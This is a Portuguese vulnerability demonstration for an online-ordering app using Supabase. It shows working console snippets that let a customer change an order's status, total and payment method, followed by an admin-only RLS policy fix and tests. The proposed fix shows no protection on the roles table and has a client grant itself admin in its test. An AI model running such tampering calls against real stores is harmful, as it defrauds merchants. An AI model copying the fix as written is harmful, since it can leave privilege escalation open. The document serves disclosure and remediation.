

# 🎯 DEMONSTRAÇÃO VISUAL DA VULNERABILIDADE

## 📸 Cenário 1: Tela Normal do Cliente

**O que o cliente vê na página de Pedidos:**


O cliente fez um pedido de R$ 50,00 com status "Preparando".

---

## 🕵️ Cenário 2: Cliente Malicioso Abre o Console (F12)

### Passo 1: Abrir DevTools

```
Windows/Linux: F12 ou Ctrl + Shift + I
Mac: Cmd + Option + I
```

### Passo 2: Ir para a aba "Console"


---

## 💀 ATAQUE EM AÇÃO

### 🎯 Ataque 1: Verificar o ID do Pedido

No console, o cliente digita:

```javascript
// Verificar pedidos
const { data: pedidos } = await supabase
  .from('orders')
  .select('*')
  .eq('user_id', 'meu-user-id');

console.log(pedidos);
// Retorna: [{ id: "abc-123", total: 50, status: "preparing", ... }]
```

**Resultado Visual:**
```
[
  {
    id: "abc-123",
    user_id: "user-xyz",
    total: 50.00,
    status: "preparing",
    payment_method: "pix"
  }
]
```

---

### 🎯 Ataque 2: Mudar Status para "Entregue"

```javascript
// ATAQUE: Mudar status sem autorização
await supabase
  .from('orders')
  .update({ status: 'delivered' })
  .eq('id', 'abc-123');

console.log('✅ Status alterado com sucesso!');
```

**ANTES:**
```json
{
  "id": "abc-123",
  "status": "preparing",
  "total": 50.00
}
```

**DEPOIS:**
```json
{
  "id": "abc-123",
  "status": "delivered", ← MUDOU!
  "total": 50.00
}
```

**Resultado:** 
- ✅ Pedido marcado como "entregue" sem ter sido entregue
- 💰 Cliente pode pedir reembolso alegando não ter recebido

---

### 🎯 Ataque 3: Reduzir o Valor Total

```javascript
// ATAQUE: Mudar valor do pedido
await supabase
  .from('orders')
  .update({ total: 5.00 })
  .eq('id', 'abc-123');

console.log('✅ Valor alterado: R$ 50 → R$ 5');
```

**ANTES:**
```json
{
  "id": "abc-123",
  "total": 50.00,
  "payment_method": "pix"
}
```

**DEPOIS:**
```json
{
  "id": "abc-123",
  "total": 5.00, ← MUDOU!
  "payment_method": "pix"
}
```

**Resultado:**
- 💸 Sistema cobra apenas R$ 5,00 ao invés de R$ 50,00
- 📉 Perda de R$ 45,00 por pedido

---

### 🎯 Ataque 4: Trocar Método de Pagamento

```javascript
// ATAQUE: PIX → Dinheiro (sem cobrança online)
await supabase
  .from('orders')
  .update({ payment_method: 'cash' })
  .eq('id', 'abc-123');

console.log('✅ Método de pagamento alterado!');
```

**ANTES:**
```json
{
  "id": "abc-123",
  "payment_method": "pix",
  "total": 50.00
}
```

**DEPOIS:**
```json
{
  "id": "abc-123",
  "payment_method": "cash", ← MUDOU!
  "total": 50.00
}
```

**Resultado:**
- 🚫 Sistema não cobra online (esperava PIX)
- 💰 Cliente não paga nada

---

## 📊 FLUXOGRAMA DO ATAQUE



---

## 💸 IMPACTO FINANCEIRO VISUAL

### Cenário Real: Loja com 100 pedidos/dia

| Métrica | Valor |
|---------|-------|
| Pedidos/dia | 100 |
| Valor médio | R$ 30,00 |
| Faturamento/dia | **R$ 3.000,00** |
| | |
| Se 10% explorarem | 10 pedidos |
| Perda por pedido | R$ 25,00 (média) |
| **Perda/dia** | **R$ 250,00** |
| **Perda/mês** | **R$ 7.500,00** |
| **Perda/ano** | **R$ 90.000,00** |

---

## ✅ A SOLUÇÃO (Política RLS)

### O que precisa ser feito:

```sql
-- Criar sistema de roles
CREATE TYPE public.app_role AS ENUM ('admin', 'user');

CREATE TABLE public.user_roles (
  id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id uuid REFERENCES auth.users(id) NOT NULL,
  role app_role NOT NULL
);

-- Função de verificação segura
CREATE FUNCTION public.has_role(_user_id uuid, _role app_role)
RETURNS boolean AS $$
  SELECT EXISTS (
    SELECT 1 FROM public.user_roles
    WHERE user_id = _user_id AND role = _role
  )
$$ LANGUAGE sql SECURITY DEFINER;

-- POLÍTICA RESTRITIVA
CREATE POLICY "Only admins can update orders"
ON orders FOR UPDATE
TO authenticated
USING (public.has_role(auth.uid(), 'admin'));
```

### Resultado após a correção:

```javascript
// Cliente tenta atacar
await supabase
  .from('orders')
  .update({ status: 'delivered' })
  .eq('id', 'abc-123');

// ❌ ERRO!
// Error: new row violates row-level security policy for table "orders"
```

**Agora:**
- ✅ Clientes podem VER seus pedidos
- ✅ Clientes podem CRIAR pedidos
- ❌ Clientes **NÃO PODEM** alterar pedidos
- ✅ Apenas admins podem atualizar

---

## 🎯 COMO TESTAR AGORA

### Teste 1: Cliente comum (deve falhar)
```javascript
await supabase
  .from('orders')
  .update({ status: 'delivered' })
  .eq('id', 'seu-pedido-id');

// Resultado esperado: ❌ Erro de permissão
```

### Teste 2: Admin (deve funcionar)
```javascript
// Primeiro, adicionar role de admin ao seu usuário
await supabase
  .from('user_roles')
  .insert({ user_id: 'admin-user-id', role: 'admin' });

// Agora tentar atualizar
await supabase
  .from('orders')
  .update({ status: 'delivered' })
  .eq('id', 'order-id');

// Resultado esperado: ✅ Sucesso (apenas para admins)
```

---

## ⚠️ CONCLUSÃO

**SEM a política RLS:**
- 💀 Qualquer cliente pode manipular qualquer campo do pedido
- 💸 Perdas financeiras significativas
- 📉 Dados corrompidos
- ❌ Zero controle sobre o sistema

**COM a política RLS:**
- ✅ Apenas admins podem alterar pedidos
- 🔒 Dados protegidos
- 💰 Faturamento seguro
- ✅ Controle total do sistema

---

**🚨 ESTA VULNERABILIDADE PRECISA SER CORRIGIDA IMEDIATAMENTE!**
